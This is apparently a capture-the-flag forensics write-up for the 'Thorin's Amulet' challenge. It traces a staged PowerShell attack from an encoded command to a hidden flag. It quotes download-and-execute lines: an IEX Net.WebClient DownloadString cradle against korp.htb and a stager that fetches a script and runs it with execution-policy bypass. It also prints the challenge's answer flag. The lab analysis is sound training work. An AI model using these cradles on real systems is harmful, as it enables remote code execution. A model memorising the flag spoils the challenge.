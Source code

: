 # 🕵️ Forensics Challenge

## 🏷️ Name: Thorin’s Amulet

## 🔥 Difficulty: Very Easy

## 🎯 Points: 875

## 📜 Challenge Description: 
> Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end  Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened?
  Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.



## 📂 Provided Files:
- **Filename:** `forensics_thorins_amulet.zip`

# 🚀 Methodology

### 🔎 1️⃣ Understanding the Evidence

### Stage 1: artifact.ps1

We are given a .ps1 file - artifact.ps1, which is pretty small:

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}

```
The base64 encoded command decodes to:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")

```

### Stage 2: Update.ps1
Visting the website, it downloads a file called update.ps1:

```powershell

function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}

```

Nothing special in the stager key, but we can download the file via python:

```python
import requests

headers = {"X-ST4G3R-KEY":"5337d322906ff18afedc1edc191d325d"}
response = requests.get("http://korp.htb/a541a",headers=headers)

with open("a541a.ps1",'w') as of:
  of.write(response.content.decode())
```

### Stage 3: a541a.ps1

```powershell
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

and this, converted from hex is the flag !

```bash
echo "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d" | xxd -r -p
```

**🚩 Final Flag:** `HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`

